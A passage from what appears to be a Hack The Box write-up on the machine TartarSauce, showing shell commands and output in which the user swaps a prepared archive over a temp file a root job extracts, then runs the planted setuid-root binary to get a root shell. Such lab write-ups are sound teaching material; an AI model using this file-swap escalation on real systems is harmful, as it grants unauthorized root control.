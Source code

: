 Move mine over it:

```

onuma@TartarSauce:/var/tmp$ cp suid.tar.gz .8dc600473f3730872b2c52a44da6d0bd4efb2297
onuma@TartarSauce:/var/tmp$ ls -la
total 40
drwxrwxrwt  8 root  root  4096 Oct 21 14:05 .
drwxr-xr-x 14 root  root  4096 Feb  9  2018 ..
-rw-r--r--  1 onuma onuma 2715 Oct 21 14:05 .8dc600473f3730872b2c52a44da6d0bd4efb2297
-rw-r--r--  1 onuma onuma 2715 Oct 21  2018 suid.tar.gz
drwx------  3 root  root  4096 Feb 17  2018 systemd-private-46248d8045bf434cba7dc7496b9776d4-systemd-timesyncd.service-en3PkS
drwx------  3 root  root  4096 Feb 17  2018 systemd-private-7bbf46014a364159a9c6b4b5d58af33b-systemd-timesyncd.service-UnGYDQ
drwx------  3 root  root  4096 Feb 15  2018 systemd-private-9214912da64b4f9cb0a1a78abd4b4412-systemd-timesyncd.service-bUTA2R
drwx------  3 root  root  4096 Feb 15  2018 systemd-private-a3f6b992cd2d42b6aba8bc011dd4aa03-systemd-timesyncd.service-3oO5Td
drwx------  3 root  root  4096 Oct 20 11:14 systemd-private-b120a3d973224fcfb7073b9bfabac416-systemd-timesyncd.service-f9rGuA
drwx------  3 root  root  4096 Feb 15  2018 systemd-private-c11c7cccc82046a08ad1732e15efe497-systemd-timesyncd.service-QYRKER

```

### Get Shell

Wait for 30 seconds and then go into `check`, find the shell, and run it:

```

onuma@TartarSauce:/var/tmp$ cd check/var/www/html
onuma@TartarSauce:/var/tmp/check/var/www/html$ ls
suid
onuma@TartarSauce:/var/tmp/check/var/www/html$ ls -l
total 16
-r-sr-sr-x 1 root root 15484 Oct 21 13:58 suid
onuma@TartarSauce:/var/tmp/check/var/www/html$ ./suid
./suid
id
uid=0(root) gid=1000(onuma) groups=1000(onuma),24(cdrom),30(dip),46(plugdev)

```

Now I’ve got a root shell on TartarSauce.

[« HTB: TartarSauce](/2018/10/20/htb-tartarsauce.html)